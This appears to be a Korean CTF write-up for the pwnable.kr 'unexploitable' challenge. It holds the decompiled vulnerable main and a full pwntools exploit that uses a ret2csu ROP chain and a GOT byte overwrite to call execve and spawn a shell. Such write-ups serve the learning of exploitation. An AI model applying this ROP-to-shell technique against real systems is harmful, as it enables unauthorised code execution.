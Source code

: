 ```yaml
---
title: "[pwnable.kr]unexploitable"
date: 2020-1-14
ctf: Pwnable.kr
layout: post
published : false
---
```


sleep(3) 있고 read로 입력받는 바이너리다. 근데 1295나 입력받는다.

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char buf; // [rsp+0h] [rbp-10h]

  sleep(3u);
  return read(0, &buf, 1295uLL);
}
```

내 원래 익스 시나리오는 sleep@got 1바이트 syscall로 덮고 아무거나 leak해주고 main에 입력받는 곳으로 리턴해주고 원샷 날리려는 시나리오였는데 립씨 릭하고 다 했는데 메인에서 원샷 안먹는다 ㅡㅡ 화난다 정말 매우 화난다 ㅎㅎ.. 

그래서 다른 방법으로 rax 컨트롤해서 `execve` 로 풀었다.

> exploit.py

```python
from pwn import *

context.arch = 'amd64'
context.log_level = 'debug'

def chain(r12,r13,r14,r15,ret):
	c = p64(0) # rsp + 8
	c += p64(0) # rbx
	c += p64(1) # rbp
	c += p64(r12) # call
	c += p64(r13) # edi
	c += p64(r14) # rsi
	c += p64(r15) # rdx
	c += p64(ret)
	return c

s = ssh("unexploitable", "pwnable.kr", port=2222, password="guest")
e = ELF('./unexploitable')
p = s.process('./unexploitable')
libc = e.libc
csu_call = 0x00000000004005D0
csu_pop = 0x00000000004005E6
syscall = 0x0000000000400560

payload = 'A'*24
payload += p64(csu_pop)
payload += chain(e.got['read'],0,e.bss()+0x100,10,csu_call)
payload += chain(e.got['read'],0,e.got['sleep'],1,csu_call)
payload += chain(e.got['read'],0,e.bss(),59,csu_call)
payload += chain(e.got['sleep'],e.bss()+0x100,0,0,csu_call)
p.send(payload)
sleep(3)

p.sendline('/bin/sh\x00')
p.send('\xee')
p.send('A'*59)

p.interactive()
```

